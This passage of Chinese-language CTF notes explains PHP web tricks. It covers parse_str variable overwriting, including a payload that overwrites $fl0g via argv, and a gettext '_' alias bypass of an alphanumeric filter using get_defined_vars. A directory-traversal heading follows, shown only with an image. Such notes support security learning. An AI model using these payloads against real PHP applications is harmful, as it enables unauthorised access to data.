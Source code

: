 ```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";

// 推荐用法
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz

// 不建议这么用
parse_str($str);
echo $first;  // value
echo $arr[0]; // foo bar
echo $arr[1]; // baz
?>
```

#### 例子

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669033630074-1b59f295-ff32-4a9d-ab7f-91fe2af77fa4.png#averageHue=%23fefefd&clientId=u77333d8d-acc7-4&from=paste&height=194&id=iVv94&originHeight=387&originWidth=2164&originalType=binary&ratio=1&rotation=0&showTitle=false&size=60455&status=done&style=none&taskId=u3a59aa68-a3d7-4436-8bbd-01d72f661be&title=&width=1082)

- 这里利用argv对$fl0g进行变量覆盖

```php
//get提交
a=1+fl0g=flag_give_me//+相当于空格，
//post提交
CTF_SHOW=1&CTF[show.COM=2&fun=parse_str($a[1])
/*
$a[1] = 'fl0g=flag_give_me'
parse_str($a[1])--->变成 $fl0g = 'fl0g_give_me';
*/

```

### gettext绕过对字母+数字过滤

[https://www.php.net/manual/zh/function.gettext.php](https://www.php.net/manual/zh/function.gettext.php)
:::info
You may use the underscore character '_' as an alias to this function.
:::

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669036567072-367a7889-fac7-4f9a-844f-e5a2f2a23ae8.png#averageHue=%23fefefe&clientId=u77333d8d-acc7-4&from=paste&height=313&id=u56f47c69&originHeight=688&originWidth=1160&originalType=binary&ratio=1&rotation=0&showTitle=false&size=46615&status=done&style=none&taskId=u036e35a7-2a95-4a86-8eab-8b02c548020&title=&width=527.2727158443989)

```php
f1=_&f2=get_defined_vars
```

### 目录穿越

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669037937230-ff75d285-402b-4ae6-a70d-50f9b03ffa9f.png#averageHue=%23fefefd&clientId=u77333d8d-acc7-4&from=paste&height=133&id=uad4e09de&originHeight=292&originWidth=595&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22508&status=done&style=none&taskId=u296c3772-f9ec-4860-9693-9391a3c9c10&title=&width=270.4545395926012)

